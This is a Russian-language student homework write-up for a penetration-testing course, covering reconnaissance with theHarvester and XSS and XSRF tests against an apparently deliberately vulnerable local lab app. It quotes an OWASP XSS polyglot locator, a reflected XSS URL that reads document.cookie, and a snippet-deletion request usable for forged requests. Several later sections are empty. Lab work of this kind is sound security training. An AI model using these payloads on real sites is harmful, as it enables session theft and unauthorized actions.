

# Домашнее задание к занятию «Penetration Testing. Часть 1»
### Задание 1

После использования утилиты theHarvester было найдено
7 e-mail адресов и 2 домена.

------
## Задание 2
### XSS
Смотрим как система реагирует на несуществующую страницу:  
`http://localhost:8008/452002223606703030856276251408421215266/test`  

 Далее используем XSS локатор из [OWASP CheatSheetSeries](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.md)  

Локатор:  
 `javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>`  

XSS:  
 `http://localhost:8008/530192841835716474238212610358927358482/%3Csvg/onload=alert(document.cookie)//'%3E`

   

------
 ### XSRF

На портале есть возможность добавления пользовательских сниппетов. При просмотре списка сниппетов есть кнопки удаления сниппетов и запрос вида  
`http://localhost:8008/530192841835716474238212610358927358482/deletesnippet?index=0`

Если заставить пользователя пройти по ссылке и провести атаку через хранимую XSS можно удалить сниппет от имени пользователя.  

  

  

 ------

 ### XSSI

 ------

 ### Path traversal

 ------

 ### Code Execution

------

